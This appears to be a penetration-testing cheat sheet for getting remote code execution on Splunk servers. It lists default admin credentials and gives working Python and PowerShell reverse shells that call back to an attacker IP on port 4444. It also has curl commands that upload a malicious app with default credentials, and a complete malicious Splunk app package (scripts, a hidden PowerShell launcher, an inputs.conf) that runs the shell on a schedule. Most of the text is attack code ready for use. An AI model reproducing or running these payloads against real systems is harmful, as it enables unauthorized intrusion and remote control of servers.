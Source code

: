 - Default Credentials `admin:changeme` `admin:Welcome1`, `admin:Password123` 
- Check version `curl -s http://<target>:8000/en-US/account/info | grep -oP '(?<=version":")[^"]+'` Or visit `http://<target>:8000/en-US/account/info`


## Exploiting Splunk for RCE
#### Method 1: Scripted Input (Python Reverse Shell)
- Navigate to: `Settings → Data Inputs → Scripts → Add New`
- Configure:
    - Script Path: `/tmp/shell.py`
    - Interval: 60 (seconds)
- Python Reverse Shell
```bash
# Linux
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<your_ip>",4444))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```
```cmd
# Windows
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<your_ip>",4444))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
subprocess.call(["cmd.exe","/k"])
```

#### Method 2: REST API (If Creds Known)
- List Apps: `curl -k -u admin:changeme https://<target>:8089/services/apps/local`
- Upload Malicious App: `curl -k -u admin:changeme -X POST -F "name=@malicious_app.tgz" https://<target>:8089/services/apps/local`


## Splunk RCE Cheat Sheet
#### 1. Create Malicious Splunk App
- Directory Structure
```text
splunk_shell/
├── bin/
│   ├── run.ps1      # PowerShell reverse shell
│   └── run.bat      # Executes the PS script
└── default/
    └── inputs.conf  # Config file
```
- run.ps1 (PowerShell Reverse Shell)
```powershell
$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```
- run.bat (Executes PS Script)
```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```
inputs.conf (Config File)
```
[script://.\bin\run.bat]
disabled = 0
interval = 10
sourcetype = shell
```
#### 2. Package & Upload App
- Create .tar.gz Archive
```
tar -cvzf splunk_rce.tar.gz splunk_shell/
```
Upload via Splunk Web UI

- Navigate to: `Apps → Manage Apps → Install app from file`
- Upload splunk_rce.tar.gz
- get a reverse shell



